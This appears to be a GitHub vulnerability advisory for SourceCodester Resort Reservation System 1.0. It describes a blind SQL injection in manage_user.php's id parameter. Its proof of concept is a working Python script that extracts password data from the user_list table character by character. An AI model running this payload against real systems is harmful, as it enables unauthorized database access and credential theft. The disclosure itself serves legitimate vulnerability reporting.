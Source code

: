 # SourceCodester Resort Reservation System 1.0 has a SQL Injection vulnerability in manage_user.php
## Software

- Software: Resort Reservation System 1.0
- Software Link: https://www.sourcecodester.com/php/16447/resort-reservation-system-php-and-sqlite3-source-code-free-download.html
- Vulnerability Type: SQL Injection
- Attack Type: Remote
- Vendor of Product: Sourcecodester

## Description

SourceCodester Resort Reservation System 1.0 has a SQL Injection vulnerability in manage_user.php. Affected is file manage_user.php, the manipulation of the argument id leads to SQL injection after users logged in.When the boolean value is true, the keyword "Update User Details" will appear on the page. Based on this feedback, a remote attacker can exploit SQL boolean-based blind injection to retrieve all data from the database.

## Vulnerability Code
![](https://github.com/Yesec/Resort-Reservation-System/assets/19534204/1b7469e2-5db5-4a58-a66f-ef472233c922)


## POC

```python
import requests
import string

url = "http://localhost/index.php?page=manage_user&id="
cookie = {"PHPSESSID":"f887a8f5b6e7aeecbfe2daa133dc224c"}
res = ""
dict = string.ascii_letters + string.digits + " " +string.punctuation

for i in range(1,50):
    for j in dict:
        # payload = "100' or substr((select group_concat(sql) from sqlite_master),%s,1)='%s" % (i, j)
        payload = "100' or substr((select group_concat(password) from user_list),%s,1)='%s" % (i, j)
        response = requests.get(url+payload, cookies=cookie)
        if "Update User Details" in response.text:
            res += j
            print("[*] Found: ",res)
            break
```

![](https://github.com/Yesec/Resort-Reservation-System/assets/19534204/86d33754-51ea-4102-a986-afe9fbf7c913)
